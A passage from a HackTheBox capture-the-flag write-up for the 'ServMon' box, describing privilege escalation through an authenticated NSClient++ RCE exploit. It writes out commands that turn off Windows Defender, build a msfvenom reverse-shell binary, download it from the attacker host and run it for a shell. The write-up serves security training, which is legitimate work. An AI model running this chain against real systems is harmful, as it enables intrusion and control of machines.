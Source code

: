 There are options to perform this from the command line or from the web portal. There is however a third option that I didn't really see when I looked for writeups, perhaps because it is a shortcut for the intended way. That is to go back to the authenticated RCE exploits I tried in the first place. I was trying them with Nadine's password, which worked for SSH or for SMB, but wasn't the admin password for the `NSClient ++` service. So looked for those again, and I found this [authenticated RCE from exploit-db](https://www.exploit-db.com/exploits/48360), and I used it once to disable AV, then upload a msfvenom binary, then again to execute the binary. 

The steps are:
1.  From kali: `python3 nsclient.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'powershell Set-MpPreference -DisableRealtimeMonitoring $true'`
2. From kali: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=445 -f exe -o reverse.exe`
3. From target: `iwr -uri http://10.10.14.3:80/reverse.exe -o C:\temp\everse.exe`
4. From kali: `python3 nsclient.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'C:\temp\reverse.exe'`
	1. *Note that this is after I had already forward the 8443 port to my machine, that's why I was able to call localhost, rather than the IP. This exploit would not have worked had that not happened because the service was configured to only accept commands from it's own server.*
	   
And that gets us a shell. 

![ServMon10.png](/assets/images/ServMon/ServMon10.png){: .responsive-image}

From there we can grab root.txt from `C:\Users\Administrator\Desktop\root.txt`, and we're done. 

### Issues
I want to address a couple of things here, because the box is rated Easy, but it also has a 2.1 rating on HTB, which I didn't notice before I started. After reading what other people did to complete it, it sounds like there are some issues that make the performance of the box a little inconsistent. 
